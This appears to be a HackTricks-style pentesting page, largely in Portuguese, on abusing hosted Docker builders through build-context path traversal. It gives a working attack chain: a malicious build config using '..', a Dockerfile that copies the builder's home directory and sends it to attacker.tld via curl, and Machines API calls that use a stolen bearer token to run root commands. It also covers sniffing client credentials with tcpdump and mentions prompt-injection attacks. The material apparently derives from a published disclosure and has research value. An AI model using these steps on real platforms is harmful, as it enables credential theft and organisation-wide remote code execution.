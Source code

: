 # Abusing Docker Build Context in Hosted Builders (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

Se uma plataforma CI/CD ou hosted builder permitir que colaboradores especifiquem o caminho do Docker build context e o caminho do Dockerfile, frequentemente é possível definir o contexto para um diretório pai (por exemplo, "..") e tornar arquivos do host parte do build context. Então, um Dockerfile controlado pelo atacante pode COPY e exfiltrate segredos encontrados no home do usuário do builder (por exemplo, ~/.docker/config.json). Tokens de registry roubados também podem funcionar contra as control-plane APIs do provedor, permitindo RCE em toda a organização.

## Superfície de ataque

Muitos serviços de hosted builder/registry fazem mais ou menos isto ao construir imagens enviadas por usuários:
- Ler uma configuração a nível de repo que inclui:
- build context path (enviado ao Docker daemon)
- Dockerfile path relativo a esse contexto
- Copy o diretório do build context indicado e o Dockerfile para o Docker daemon
- Build da imagem e execução como um serviço hospedado

Se a plataforma não canonicalizar e restringir o build context, um usuário pode defini-lo para um local fora do repositório (path traversal), fazendo com que arquivos arbitrários do host legíveis pelo build user se tornem parte do build context e fiquem disponíveis para COPY no Dockerfile.

Restrições práticas comumente observadas:
- O Dockerfile deve residir dentro do caminho de contexto escolhido e seu caminho deve ser conhecido com antecedência.
- O build user deve ter acesso de leitura aos arquivos incluídos no contexto; arquivos de dispositivo especiais podem quebrar a cópia.

## PoC: Path traversal via Docker build context

Exemplo de configuração de servidor maliciosa declarando um Dockerfile dentro do contexto do diretório pai:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Notas:
- Usar ".." frequentemente resolve para o diretório home do usuário builder (por exemplo, /home/builder), que normalmente contém arquivos sensíveis.
- Coloque seu Dockerfile sob o nome do diretório do repo (por exemplo, repo "test" → test/Dockerfile) para que permaneça dentro do contexto pai expandido.

## PoC: Dockerfile para ingerir e exfiltrar o contexto do host
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Alvos comumente recuperados de $HOME:
- ~/.docker/config.json (registry auths/tokens)
- Outros caches e configs de cloud/CLI (e.g., ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Dica: Mesmo com um .dockerignore no repositório, a seleção de contexto do lado da plataforma vulnerável ainda governa o que é enviado ao daemon. Se a plataforma copiar o caminho escolhido para o daemon antes de avaliar o .dockerignore do seu repo, arquivos do host ainda podem ser expostos.

## Pivot na cloud com tokens excessivamente privilegiados (exemplo: Fly.io Machines API)

Algumas plataformas emitem um único bearer token utilizável tanto para o container registry quanto para o control-plane API. Se você exfiltrar um registry token, tente usá-lo contra a API do provedor.

Example API calls against Fly.io Machines API using the stolen token from ~/.docker/config.json:

Enumerate apps in an org:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Execute um comando como root dentro de qualquer máquina de um app:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Resultado: org-wide remote code execution across all hosted apps where the token holds sufficient privileges.

## Roubo de segredos de serviços hospedados comprometidos

Com exec/RCE em servidores hospedados, você pode obter segredos fornecidos pelo cliente (API keys, tokens) ou realizar ataques de prompt-injection. Exemplo: instalar tcpdump e capturar tráfego HTTP na porta 8080 para extrair credenciais de entrada.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Requisições capturadas frequentemente contêm client credentials em headers, bodies ou query params.

## Referências

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
